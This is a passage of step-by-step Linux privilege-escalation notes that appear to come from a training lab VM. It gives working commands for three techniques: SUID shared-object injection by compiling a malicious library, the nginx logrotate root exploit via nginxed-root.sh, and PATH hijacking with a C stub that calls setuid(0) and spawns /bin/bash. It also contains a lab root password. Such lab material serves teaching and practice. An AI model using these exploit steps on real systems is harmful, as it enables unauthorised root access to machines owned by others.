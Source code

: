 8. Save the file as libcalc.c
9. In command prompt type:
gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
10. In command prompt type: /usr/local/bin/suid-so
11. In command prompt type: id

######################################################################
SUID(Symlinks)

type: dpkg -l | grep nginx
2. From the output, notice that the installed nginx version is below 1.6.2-5+deb8u3.

Exploitation

Linux VM – Terminal 1

1. For this exploit, it is required that the user be www-data. To simulate this escalate to root by typing: su root
2. The root password is password123
3. Once escalated to root, in command prompt type: su -l www-data
4. In command prompt type: /home/user/tools/nginx/nginxed-root.sh /var/log/nginx/error.log
5. At this stage, the system waits for logrotate to execute. In order to speed up the process, this will be simulated by connecting to the Linux VM via a different terminal.

Linux VM – Terminal 2

1. Once logged in, type: su root
2. The root password is password123
3. As root, type the following: invoke-rc.d nginx rotate >/dev/null 2>&1
4. Switch back to the previous terminal.

Linux VM – Terminal 1

1. From the output, notice that the exploit continued its execution.
2. In command prompt type: id

######################################################################
SUID (Environment Variables #1)

type: find / -type f -perm -04000 -ls 2>/dev/null
note the SUID binaries.
type: strings /usr/local/bin/suid-env
notice the functions used by the binary.


1. In command prompt type:
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c
2. In command prompt type: gcc /tmp/service.c -o /tmp/service
3. In command prompt type: export PATH=/tmp:$PATH
4. In command prompt type: /usr/local/bin/suid-env
5. In command prompt type: id

######################################################################
SUID (Environment Variables #2)

type: find / -type f -perm -04000 -ls 2>/dev/null
note the SUID binaries.
type: strings /usr/local/bin/suid-env2
notice the functions used by the binary.
